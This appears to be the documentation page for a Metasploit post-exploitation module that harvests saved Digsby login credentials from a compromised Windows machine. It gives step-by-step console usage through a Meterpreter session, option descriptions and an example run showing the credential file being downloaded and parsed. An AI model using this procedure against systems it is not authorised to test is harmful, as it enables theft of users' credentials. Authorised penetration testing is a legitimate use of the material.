 ## Module Description

This post-exploitation module gathers artifacts found on Digsby related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/digsby
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
```
msf post(windows/gather/credentials/digsby) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Digsby's parent folder found
[*] Digsby's Logininfo.yaml file found
[*] Downloading C:\Users\IEUser\AppData\Local\Digsby\logininfo.yaml
[*] Digsby Logininfo.yaml downloaded
[+] File saved to:  /root/.msf4/loot/20210524095736_default_192.168.56.106_digsbylogininfo._191730.bin

[+] password:""
[+] password:!binary|
[+] username:""
[+] username:!python/unicode************
[+] File with data saved:  /root/.msf4/loot/20210524095736_default_192.168.56.106_EXTRACTIONlogini_987217.bin
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
